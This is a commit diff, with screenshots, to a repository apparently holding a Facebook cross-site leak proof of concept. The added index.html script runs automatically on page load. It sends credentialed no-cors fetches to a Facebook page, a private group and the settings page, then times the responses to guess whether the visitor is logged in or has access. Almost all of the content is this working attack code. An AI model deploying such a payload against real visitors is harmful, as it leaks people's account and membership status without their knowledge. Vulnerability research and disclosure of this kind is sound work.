

Before and after one commit to bibekdondai/fb-xsleak-poc, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html
change

```diff
--- a/index.html
+++ b/index.html
@@ -3,41 +3,75 @@
 <head>
   <meta charset="UTF-8">
   <title>Facebook XS-Leak PoC</title>
+  <style>
+    body { font-family: Arial, sans-serif; max-width: 800px; margin: 0 auto; padding: 20px; }
+    .result { padding: 10px; margin: 10px 0; border-radius: 5px; }
+    .accessible { background: #ffebee; border-left: 4px solid #f44336; }
+    .inaccessible { background: #e8f5e9; border-left: 4px solid #4caf50; }
+  </style>
 </head>
 <body>
-  <h2>Facebook XS-Leak Proof of Concept</h2>
-  <p>Check the browser console (F12 > Console) for results.</p>
+  <h1>Facebook Resource Access Timing Test</h1>
+  <p>This page demonstrates how response timing can reveal whether a user has access to specific Facebook resources.</p>
+
+  <div id="results"></div>
 
   <script>
-    const targetURL = "https://www.facebook.com/130676333456599"; // Replace with actual page
+    const testCases = [
+      { url: "https://www.facebook.com/130676333456599", name: "Test Page (Likely Public)" },
+      { url: "https://www.facebook.com/groups/private-group-test", name: "Private Group (Members Only)" },
+      { url: "https://www.facebook.com/settings", name: "Settings Page (Logged-in Users)" }
+    ];
 
-    async function checkTiming() {
+    async function testTiming(url, name) {
       const start = performance.now();
 
       try {
-        await fetch(targetURL, {
+        await fetch(url, {
           mode: "no-cors",
-          credentials: "include"
+          credentials: "include",
+          cache: "no-store"
         });
       } catch (e) {
-        // No-cors request blocks reading response, expected
+        // Expected with no-cors
       }
 
-      const end = performance.now();
-      const duration = end - start;
-      console.log(`⏱️ Response Time: ${duration.toFixed(2)} ms`);
+      const duration = performance.now() - start;
+      return { name, url, duration };
+    }
 
-      // Arbitrary threshold, adjust as needed based on test results
-      if (duration > 2000) {
-        console.log("⚠️ User likely has access or admin role");
-      } else {
-        console.log("✅ User likely does NOT have access");
+    async function runTests() {
+      const resultsEl = document.getElementById('results');
+      resultsEl.innerHTML = '<h2>Testing...</h2>';
+
+      for (const test of testCases) {
+        // Run multiple times for consistency
+        const durations = [];
+        for (let i = 0; i < 3; i++) {
+          const result = await testTiming(test.url, test.name);
+          durations.push(result.duration);
+          await new Promise(resolve => setTimeout(resolve, 1000));
+        }
+
+        const avgDuration = durations.reduce((a,b) => a + b, 0) / durations.length;
+        const isAccessible = avgDuration < 1000; // Adjust threshold based on your tests
+
+        const resultEl = document.createElement('div');
+        resultEl.className = `result ${isAccessible ? 'accessible' : 'inaccessible'}`;
+        resultEl.innerHTML = `
+          <h3>${test.name}</h3>
+          <p>URL: ${test.url}</p>
+          <p>Average Response Time: ${avgDuration.toFixed(2)}ms</p>
+          <p>Conclusion: ${isAccessible ? 'Likely ACCESSIBLE' : 'Likely INACCESSIBLE'}</p>
+        `;
+        resultsEl.appendChild(resultEl);
+
+        console.log(`[TEST] ${test.name} - Avg: ${avgDuration.toFixed(2)}ms - ${isAccessible ? 'ACCESSIBLE' : 'INACCESSIBLE'}`);
       }
     }
 
-    for (let i = 0; i < 5; i++) {
-      setTimeout(checkTiming, i * 1500);
-    }
+    // Start tests after page load
+    window.addEventListener('load', runTests);
   </script>
 </body>
 </html>
```
